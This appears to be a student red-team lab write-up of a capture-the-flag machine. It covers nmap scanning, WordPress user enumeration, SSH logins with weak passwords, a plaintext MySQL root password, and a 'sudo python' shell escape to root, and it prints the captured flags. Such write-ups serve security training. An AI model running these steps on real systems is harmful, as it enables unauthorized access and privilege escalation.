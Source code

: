 # Red Team: Summary of Operations
### Table of Contents
 - Exposed Services
 - Critical Vulnerabilities
 - Exploitation
### Exposed Services
- Fill out the information below:
  - Nmap scan results for each machine reveal the below services and OS details: nmap -sV 192.168.1.110  command to Scan Target 1
  
 ![](Images/Nmap%20Scan.png)
 
- This scan identifies the services below as potential points of entry:
 ### Target 1:
  - SSH
  - HTTP
  - rpcbind
  - netbios-ssn
  
  ![](Images/Nmap%20Port%20%26%20Services.png)



- The following vulnerabilities were identified on each target:
 ### Target 1:


| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |

![](Images/wordpress%201.png)
![](Images/wordpress%202.png)


### Exploitation

- Fill out the details below. Include screenshots where possible:
- The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
### Target 1:

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/
  - grep -RE flag



                                      flag1.txt: flag1{b9bbcb33e11b80be759c4e844862482d}
 
 
![](Images/Flag%201%20%26%202.png) 

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/html/wordpress
  - mysql -u root -p
  - R@v3enSecurity
  - SELECT * FROM wp_post
 
                                      flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}


![](Images/Flag%201%20%26%202.png)

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - mysql -u root -p
  - R@v3enSecurity
  - use wordpress;
  - SELECT * FROM wp_posts;

                                          

                                      flag3.txt: flag3{afc01ab56b50591e7dccf93122770cd2} 


 ![](Images/Flag%203.png)
 
 - Exploit Use:
   - Privilege escalation
   - ssh steven@192.168.1.110
   - sudo python -c ‘import os;os.system(“/bin/sh”)’ 
   - cd ../..
   - cat flag4                  
 

                                      flag4.txt:  flag4{715dea6c055b9fe3337544932f2941ce}
 
 
![](Images/Flag%204.png)
                                      
                   



